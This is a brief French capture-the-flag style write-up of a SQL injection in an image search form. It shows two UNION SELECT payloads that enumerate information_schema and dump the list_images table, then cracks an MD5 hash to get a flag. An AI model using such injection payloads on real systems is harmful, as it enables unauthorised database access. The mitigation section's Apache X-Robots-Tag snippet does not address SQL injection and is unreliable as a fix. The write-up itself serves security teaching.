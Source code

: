 # Explications

En testant la page de recherche d'images on peut constater que le formulaire n'est pas protégé contre les injections sql.

(Celles-ci figurent parmi le top 10 des failles de sécurité web selon l'OWASP.)

On fait une première injection afin de découvrir les champs de la table relative aux images dans la BDD :

- `1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns`

On explore la table en utilisant les différents champs maintenant connus : id, url, title, comment (table `list_images`)

- `1 OR 1=1 UNION SELECT title,comment from list_images`

On découvre le comment suivant : "If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"

En le décryptant via md5, on obtient le mot "albatroz". On utilise ensuite l'algorithme sha256 pour obtenir le flag.

# Comment l'éviter ?

Pour éviter les injections SQL il faut impérativement protéger les entrées utilisateur en back. Certaines fonctions permettent de le faire facilement, mais en général les framework font le travail pour nous.

```
<IfModule mod_headers.c>
Header set X-Robots-Tag "noindex, nofollow"
</IfModule>
```
